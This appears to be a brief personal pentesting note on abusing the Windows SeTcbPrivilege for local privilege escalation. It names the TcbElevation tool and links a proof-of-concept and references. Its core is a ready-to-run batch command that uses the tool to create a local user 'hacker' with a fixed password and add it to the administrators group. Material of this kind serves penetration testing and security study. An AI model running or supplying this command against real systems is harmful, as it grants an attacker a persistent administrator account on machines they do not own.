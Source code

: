 ```yaml
---
title: SeTcbPrivilege
---
```


This [[notes/windows/privilege]] allows local privilege escalation.

With [TcbElevation](https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178).
*Error starting service 1053* is expected.

~~~ bat
.\TcbElevation.exe LaLaLa "C:\Windows\System32\cmd.exe /c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"
~~~

Untested tools:

- [SeTcbPrivilegePoC](https://github.com/daem0nc0re/PrivFu/blob/main/PrivilegedOperations/SeTcbPrivilegePoC)

References:

- <https://twitter.com/splinter_code/status/1568548572861267968>
- <https://twitter.com/decoder_it/status/1568930949659762693/>
